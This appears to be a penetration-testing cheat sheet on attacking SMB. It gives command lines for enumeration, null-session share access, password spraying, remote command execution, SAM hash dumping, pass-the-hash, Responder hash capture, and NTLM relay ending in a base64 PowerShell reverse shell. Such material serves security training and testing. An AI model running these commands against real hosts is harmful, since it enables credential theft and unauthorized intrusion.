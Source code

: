 Server Message Block (SMB) is a communication protocol created for providing shared access to files and printers across nodes on a network. Initially, it was designed to run on top of NetBIOS over TCP/IP (NBT) using TCP port 139 and UDP ports 137 and 138. However, with Windows 2000, Microsoft added the option to run SMB directly over TCP/IP on port 445 without the extra NetBIOS layer. Nowadays, modern Windows operating systems use SMB over TCP but still support the NetBIOS implementation as a failover.


On Windows, SMB can run directly over port 445 TCP/IP without the need for NetBIOS over TCP/IP, but if Windows has NetBIOS enabled, or we are targetting a non-Windows host, we will find SMB running on port 139 TCP/IP. This means that SMB is running with NetBIOS over TCP/IP.

Another protocol that is commonly related to SMB is MSRPC (Microsoft Remote Procedure Call). RPC provides an application developer a generic way to execute a procedure (a.k.a. a function) in a local or remote process without having to understand the network protocols used to support the communication, as specified in MS-RPCE, which defines an RPC over SMB Protocol that can use SMB Protocol named pipes as its underlying transport.


# Enumeration

Keep in mind that when targetting Windows OS, version information is usually not included as part of the Nmap scan results.Instead, Nmap will try to guess the OS version. 


`$ sudo nmap 10.129.14.128 -sV -sC -p139,445`


# Misconfigurations

### Anonymous Authentication

Using `smbclient`, we can display a list of the server's shares with the option -L, and using the option -N, we tell smbclient to use the null session.

`$ smbclient -N -L //10.129.14.128`

`Smbmap` is another tool that helps us enumerate network shares and access associated permissions. An advantage of smbmap is that it provides a list of permissions for each shared folder.

`$ smbmap -H 10.129.14.128`

Using smbmap with the -r or -R (recursive) option, one can browse the directories:

```
$ smbmap -H 10.129.14.128 -r notes

$ smbmap -H 10.129.14.128 --download "notes\note.txt"

$ smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"

```

## Remote Procedure Call (RPC)

[SANS Pocket Guide]( https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf )

`$ rpcclient -U "%" 10.10.110.17`



# Protocol Specific Attacks


### Brute Forcing and Password Spray

`$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Password1!'`

Note: By default CME will exit after a successful login is found. Using the --continue-on-success flag will continue spraying even after a valid password is found. it is very useful for spraying a single password against a large user list.


### Remote Code Execution (RCE)

PsExec is a tool that lets us execute processes on other systems, complete with full interactivity for console applications, without having to install client software manually.

We can download PsExec from Microsoft website, or we can use some Linux implementations:

-    Impacket PsExec - Python PsExec like functionality example using RemComSvc.
    
-    Impacket SMBExec - A similar approach to PsExec without using RemComSvc. The technique is described here. This implementation goes one step further, instantiating a local SMB server to receive the output of the commands. This is useful when the target machine does NOT have a writeable share available.
    
-   Impacket atexec - This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
    
-   CrackMapExec - includes an implementation of smbexec and atexec.
   
-    Metasploit PsExec - Ruby PsExec implementation.



`$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`

    Note: If the --exec-method is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the --exec-method smbexec.




### Enumerating Logged-on Users

`$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`


### Extract Hashes from SAM Database

`$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`

    
### Pass-the-Hash (PtH)

` $ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`


### Forced Authentication Attacks

We can also abuse the SMB protocol by creating a fake SMB Server to capture users' NetNTLM v1/v2 hashes.

The most common tool to perform such operations is the Responder. Responder is an LLMNR, NBT-NS, and MDNS poisoner tool with different capabilities, one of them is the possibility to set up fake services, including SMB, to steal NetNTLM v1/v2 hashes. In its default configuration, it will find LLMNR and NBT-NS traffic. Then, it will respond on behalf of the servers the victim is looking for and capture their NetNTLM hashes.

When a user or a system tries to perform a Name Resolution (NR), a series of procedures are conducted by a machine to retrieve a host's IP address by its hostname. On Windows machines, the procedure will roughly be as follows:

The hostname file share's IP address is required.
    
The local host file (C:\Windows\System32\Drivers\etc\hosts) will be checked for suitable records.
    
If no records are found, the machine switches to the local DNS cache, which keeps track of recently resolved names.
    
Is there no local DNS record? A query will be sent to the DNS server that has been configured.
    
If all else fails, the machine will issue a multicast query, requesting the IP address of the file share from other machines on the network.

Suppose a user mistyped a shared folder's name \\mysharefoder\ instead of \\mysharedfolder\. In that case, all name resolutions will fail because the name does not exist, and the machine will send a multicast query to all devices on the network, including us running our fake SMB server. This is a problem because no measures are taken to verify the integrity of the responses. Attackers can take advantage of this mechanism by listening in on such queries and spoofing responses, leading the victim to believe malicious servers are trustworthy. This trust is usually used to steal credentials.

All saved Hashes are located in Responder's logs directory (/usr/share/responder/logs/). 
Note: If you notice multiples hashes for one account this is because NTLMv2 utilizes both a client-side and server-side challenge that is randomized for each interaction. This makes it so the resulting hashes that are sent are salted with a randomized string of numbers. This is why the hashes don't match but still represent the same password.


### ntlmrelay

If we cannot crack the hash, we can potentially relay the captured hash to another machine using impacket-ntlmrelayx or Responder MultiRelay.py. 

First, we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).

Then we execute impacket-ntlmrelayx with the option --no-http-server, -smb2support, and the target machine with the option -t. By default, impacket-ntlmrelayx will dump the SAM database, but we can execute commands by adding the option -c.

`$ impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`

We can create a PowerShell reverse shell using https://www.revshells.com/, set our machine IP address, port, and the option Powershell #3 (Base64).

`$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e {base64 string}'`




# [SMBGhost](https://arista.my.site.com/AristaCommunity/s/article/SMBGhost-Wormable-Vulnerability-Analysis-CVE-2020-0796) ( [CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796) )


    The vulnerability consisted of a compression mechanism of the version SMB v3.1.1 which made Windows 10 versions 1903 and 1909 vulnerable to attack by an unauthenticated attacker. The vulnerability allowed the attacker to gain remote code execution (RCE) and full access to the remote target system.


    